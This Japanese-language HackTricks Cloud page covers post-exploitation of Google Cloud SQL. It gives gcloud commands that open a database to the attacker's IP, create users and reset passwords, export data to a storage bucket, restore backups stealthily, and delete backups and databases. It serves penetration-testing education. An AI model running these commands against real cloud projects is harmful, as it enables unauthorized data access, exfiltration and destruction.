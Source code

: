 # GCP - Cloud SQL ポストエクスプロイテーション

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Cloud SQL

Cloud SQLに関する詳細情報は、以下を確認してください：

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

データベースに接続するには、**データベースポートへのアクセス**と**ユーザー名**および**パスワード**を知っているだけで、IAMの要件はありません。したがって、データベースにパブリックIPアドレスがあると仮定すると、アクセスを取得する簡単な方法は、許可されたネットワークを更新し、**自分のIPアドレスがアクセスできるようにすること**です。
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
**`--no-backup`**を使用して、データベースの**バックアップを中断**することも可能です。

これらが要件であるため、**`cloudsql.instances.connect`**と**`cloudsql.instances.login`**の権限が何であるかは完全にはわかりません。知っている方はPRを送ってください！

### `cloudsql.users.list`

データベースの**すべてのユーザーのリスト**を取得します：
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

この権限は、**データベース内に新しいユーザーを作成する**ことを許可します：
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

この権限は**データベース内のユーザーを更新する**ことを許可します。例えば、パスワードを変更することができます：

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

バックアップには**古い機密情報**が含まれている可能性があるため、確認することが興味深いです。\
**データベース内にバックアップを復元**します:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
よりステルスな方法で行うには、現在稼働中のデータベースではなく、新しいSQLインスタンスを作成し、そこでデータを復元することをお勧めします。

### `cloudsql.backupRuns.delete`

この権限はバックアップを削除することを許可します：
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**データベースをエクスポート**してCloud Storageバケットに保存し、そこからアクセスできるようにします:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**データベースをインポート**（上書き）する Cloud Storage バケットから:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

データベースインスタンスからデータベースを削除します：
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
